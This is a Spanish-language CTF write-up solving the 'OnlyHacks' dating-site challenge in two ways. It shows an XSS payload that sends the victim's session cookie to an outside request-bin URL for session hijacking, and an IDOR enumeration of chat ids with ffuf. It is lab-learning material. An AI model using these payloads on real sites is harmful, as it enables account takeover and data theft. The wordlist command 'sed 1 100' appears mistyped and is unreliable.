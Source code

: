 ```yaml
---
title: "OnlyHacks"
date: "2025-02-20T17:00:00-05:00"
type: "challenges"
draft: false
tags: ["Web", "IDOR", "XSS", "Cross-Site-Scripting"]
---
```


Al ingresar a la url tenemos la opcion de registrarnos e iniciar sesión que es lo primero que vamos a hacer.

<a href="https://imgur.com/XA5fCKn"><img src="https://i.imgur.com/XA5fCKn.png" title="source: imgur.com" /></a>

Dentro podremos ver una web de citas en la que la unica persona interesante es Renata, esto debido a que nos dice que siempre esta conectada, por lo que le vamos a dar match y vamos a hablar con ella.

<a href="https://imgur.com/SPZKCYs"><img src="https://i.imgur.com/SPZKCYs.png" title="source: imgur.com" /></a>

En este punto hay dos formas de resolver la maquina una es haciendo un Cross-Site-Scripting y la otra es modifcando la url debido a que podemos ver que cada chat tiene un id.

Vamos a mostrar la primera si tratamos de usar un titulo html en la conversacion con renata este respondera al contenido:

```markdown
<h1>Hi</h1>
```

<a href="https://imgur.com/xZtJ9UZ"><img src="https://i.imgur.com/xZtJ9UZ.png" title="source: imgur.com" /></a>

Vamos a tratar de conseguir la cookie de su sesion con el siguiente comando:

```markdown
<script>document.location='http://requestbinLink?
c='+document.cookie</script>
```

Vamos a ir a esta pagina [http://requestbin.whapi.cloud/](http://requestbin.whapi.cloud/) crearemos una nueva request y remplazaremos la url en el comando, si hace click en el link y recargamos la pagina de la request tendremos lo siguiente:

<a href="https://imgur.com/KL2LC4b"><img src="https://i.imgur.com/KL2LC4b.png" title="source: imgur.com" /></a>

Remplazaremos esa cookie en el navegador usando inspeccionar y podremos ver los chats de renata junto con la flag.

<a href="https://imgur.com/gF6SYzC"><img src="https://i.imgur.com/gF6SYzC.png" title="source: imgur.com" /></a>

Ahora vamos con la segunda forma, cuando entramos al chat de renata podemos ver como la url es:

```markdown
http://94.237.55.96:37246/chat/?rid=6
```

Si cambiamos el valor del seis podremos ver otros chats hay una forma de probar esto de manera automatica con ffuf para verificar que sea un IDOR:

```bash
#Creamos el diccionario
sed 1 100 > id.txt

ffuf -w id.txt -u 'http://94.237.55.96:37246/chat/?rid=FUZZ' -H "Cookie: session=TUCOOKIE" -mc 200
```

Esto nos devolvio dos posibles chats pero uno es el nuestro por lo que si probamos con el otro tendremos nuevamente la flag.

<a href="https://imgur.com/EA0H2hP"><img src="https://i.imgur.com/EA0H2hP.png" title="source: imgur.com" /></a>

